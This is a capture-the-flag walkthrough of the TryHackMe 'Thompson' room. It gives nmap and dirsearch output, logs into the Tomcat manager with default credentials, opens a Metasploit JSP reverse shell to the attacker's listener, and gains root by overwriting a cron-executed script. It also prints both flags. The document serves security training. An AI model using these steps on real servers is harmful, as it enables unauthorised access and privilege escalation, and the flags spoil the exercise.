

# Thompson

boot2root machine for FIT and bsides guatemala CTF

[Thompson](https://tryhackme.com/room/bsidesgtthompson)

## Topic's

- Network Enumeration
- Web Enumeration
- Web Poking
- Stored Passwords & Keys
- Metasploit (jsp_shell_reverse_tcp)
- Exploiting Crontab

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Thompson

read user.txt and root.txt

```
kali@kali:~/CTFs/tryhackme/Thompson$ sudo nmap -A -sS -sC -sV -O 10.10.27.26
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-14 16:43 CEST
Nmap scan report for 10.10.27.26
Host is up (0.038s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/14%OT=22%CT=1%CU=34354%PV=Y%DS=2%DC=T%G=Y%TM=5F870E
OS:BF%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=8)OP
OS:S(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST
OS:11NW7%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)EC
OS:N(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1025/tcp)
HOP RTT      ADDRESS
1   37.21 ms 10.8.0.1
2   37.65 ms 10.10.27.26

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.66 seconds
```

```
kali@kali:~/CTFs/tryhackme/Thompson$ sudo /opt/dirsearch/dirsearch.py -u 10.10.27.26:8080 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -e html,php,txt

  _|. _ _  _  _  _ _|_    v0.4.0
 (_||| _) (/_(_|| (_| )

Extensions: html, php, txt | HTTP method: GET | Threads: 20 | Wordlist size: 4658

Error Log: /opt/dirsearch/logs/errors-20-10-14_16-45-12.log

Target: 10.10.27.26:8080

Output File: /opt/dirsearch/reports/10.10.27.26/_20-10-14_16-45-13.txt

[16:45:13] Starting:
[16:45:17] 302 -    0B  - /docs  ->  /docs/
[16:45:18] 302 -    0B  - /examples  ->  /examples/
[16:45:18] 200 -   21KB - /favicon.ico
[16:45:19] 302 -    0B  - /host-manager  ->  /host-manager/
[16:45:20] 302 -    0B  - /manager  ->  /manager/

Task Completed
```

[http://10.10.27.26:8080/manager/html](http://10.10.27.26:8080/manager/html)



```
<role rolename="manager-gui"/>
<user username="tomcat" password="s3cret" roles="manager-gui"/>
```

`tomcat:s3cret`

```
kali@kali:~/CTFs/tryhackme/Thompson$ msfconsole -q
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload java/jsp_shell_reverse_tcp
payload => java/jsp_shell_reverse_tcp
msf5 exploit(multi/handler) > set lhost 10.8.106.222
lhost => 10.8.106.222
msf5 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

msf5 exploit(multi/handler) > [*] Started reverse TCP handler on 10.8.106.222:4444
[*] Command shell session 1 opened (10.8.106.222:4444 -> 10.10.27.26:44296) at 2020-10-14 16:51:45 +0200
id
[*] exec: id

uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),117(bluetooth),132(scanner)
msf5 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

SHELL=/bin/bash script -q /dev/null
tomcat@ubuntu:/$ id
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
tomcat@ubuntu:/$ cd /home
cd /home
tomcat@ubuntu:/home$ ls
ls
jack
tomcat@ubuntu:/home$ cd jack
cd jack
tomcat@ubuntu:/home/jack$ ls
ls
id.sh  test.txt  user.txt
tomcat@ubuntu:/home/jack$ cat user.txt
cat user.txt
39400c90bc683a41a8935e4719f181bf
```

```
tomcat@ubuntu:/home/jack$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    cd /home/jack && bash id.sh
#
tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
#!/bin/bash
id > test.txt
tomcat@ubuntu:/home/jack$ printf '#!/bin/bash\ncat /root/root.txt > test.txt' > id.sh
<rintf '#!/bin/bash\ncat /root/root.txt > test.txt' > id.sh
tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
#!/bin/bash
cat /root/root.txt > test.txttomcat@ubuntu:/home/jack$ cat test.txt
cat test.txt
uid=0(root) gid=0(root) groups=0(root)
tomcat@ubuntu:/home/jack$ ^[[A
cat test.txt
uid=0(root) gid=0(root) groups=0(root)
tomcat@ubuntu:/home/jack$ ^[[A
cat test.txt
d89d5391984c0450a95497153ae7ca3a
tomcat@ubuntu:/home/jack$
```

1. user.txt

`39400c90bc683a41a8935e4719f181bf`

2. root.txt

`d89d5391984c0450a95497153ae7ca3a`
